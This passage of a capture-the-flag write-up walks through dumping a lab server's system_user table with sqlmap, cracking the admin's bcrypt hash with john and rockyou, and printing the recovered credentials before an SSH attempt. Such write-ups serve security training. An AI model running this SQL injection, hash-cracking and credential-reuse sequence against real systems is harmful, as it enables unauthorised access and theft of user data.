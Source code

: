 We can find **flag1** within one of the user entries!

---

### [ flag2 ]

Now let's dump out all of the data in the **system_user** table:

```
sqlmap -u http://10.10.103.117/products/1 --level=5 --risk=3 --batch --threads=10 -D duckyinc -T system_user --dump
```

![screenshot10](../assets/images/revenge/screenshot10.png)

Nice, we've obtained the administrator's username:

> server-admin

We also have their hashed password:

> $2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a

We can use `john` to crack this password:

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

After a couple of seconds, `john` was able to crack the administrator's password:

![screenshot11](../assets/images/revenge/screenshot11.png)

We now have the admin's credentials:

> server-admin : inuyasha

From **app.py**, we can see that the login forms at **/admin** and **/login** do not actually lead anywhere. Hence, the only other place where these credentials might work would be on the **SSH server**. Let's try logging in!
